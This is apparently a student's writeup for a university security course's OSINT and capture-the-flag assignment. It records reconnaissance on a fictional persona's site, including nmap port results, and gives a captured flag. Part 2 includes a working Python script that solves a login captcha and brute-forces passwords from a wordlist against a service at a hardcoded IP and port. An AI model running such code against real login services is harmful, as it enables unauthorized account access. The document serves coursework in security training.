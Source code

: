 # Writeup 2 - OSINT

Name: *PUT YOUR NAME HERE*
Section: *PUT YOUR SECTION NUMBER HERE*

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement: *PUT YOUR NAME HERE*

## Assignment Writeup

### Part 1 (45 pts)

1.    What is ejnorman84's real name?
Eric J. Norman
2.    Where does ejnorman84 work? What is the URL to their website?
Wattsamp Energy, http://wattsamp.net/index.html
3.    List all personal information (including social media accounts, contacts, etc) you can find about ejnorman84. For each, briefly detail how you discovered them.
EricNorman84 – twitter handle (I discovered this by just searching for his handle on twitter)
EricNorman84 – Instagram handle (I discovered this by just searching for his handle on Instagram)
4.    List any ( >= 1 ) IP addresses associated with the website. For each, detail the location of the server, any history in DNS, and how you discovered this information.
157.230.179.99 – IP address which is based from North Bergen, New Jersey, USA 07047
The DNS history is new. 
The website was saved on September 7th, which is also when the website was hosted. 
I found all this information in html scripts of the website
5.    List any hidden files or directories you found on this website.
Hidden file called assets in the parent directory, I also found links to UMD cyber security clubs website (cec.umd.edu and their twitter page (umdcsec))
6.    What ports are open on the website? What services are running behind these ports? How did you discover this?
22/tcp open ssh
25/tcp filtered smtp
80/tcp open http
1337/tcp open waste
I figured these out by using nmap website name and running the command on all ports
7.    Which operating system is running on the server that is hosting the website? How did you discover this?
Ubuntu, I used the website browserspy.dk/webserver.php
8.    BONUS: Did you find any other flags on your OSINT mission? Note: the standard flag format for bonus flags is *CMSC389R-{}. (Up to 9 pts!)


### Part 2 (75 pts)

*Please use this space to detail your approach and solutions for part 2. Don't forget to upload your completed source code to this /writeup directory as well!*


Located flag.text 
contents: Good! Here's your flag: CMSC389R-{!enough_nrg_4_a_str0ng_Pa$$wrd}

My approach to this program: 

From the code that was provided I knew we using a socket to send and recieve information. So my first step was to find out using nc what the program was asking for, and from that I learned we needed to solve the captcha. 

First thing in my head was to send back an answer for the captcha to prompt me to the username line, and then the password.

I figured out the username through the website, but for the password I needed to parse through the file and automate the process until I guessed for a password. 

Here is my code: 
import socket
import re
import time

host = "157.230.179.99" # IP address here
port = 1337 # Port here
wordlist = "/Users/jshaik/Desktop/guru99.txt" # Point to wordlist file

def brute_force():

with open(wordlist) as fp:
for cnt, line in enumerate(fp):
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
time.sleep(3)
data = s.recv(2048)     # Receives 1024 bytes from IP/Port


exp = re.search('~~~ CAPTCHA ~~~\\n([\d]+) ([-+*\/]) ([\d]+)', data.decode().strip())


if(exp.group(2) == '+'):
ans = int(exp.group(1)) + int(exp.group(3))
elif (exp.group(2) == '-'):
ans = int(exp.group(1)) - int(exp.group(3))
elif (exp.group(2) == '*'):
ans = int(exp.group(1)) * int(exp.group(3))
else:
ans = int(exp.group(1)) // int(exp.group(3))

answerToSend = str(ans)+"\n"

# send captcha answer
s.send(answerToSend.encode())
# send username
username = "ejnorman84\n"
s.send(username.encode())
password = line+"\n"
s.send(password.encode())

time.sleep(1)
status = s.recv(1044)

if "Fail".encode() in status:
print(status)
else:
print("Success" + password)
break

if __name__ == '__main__':
brute_force()
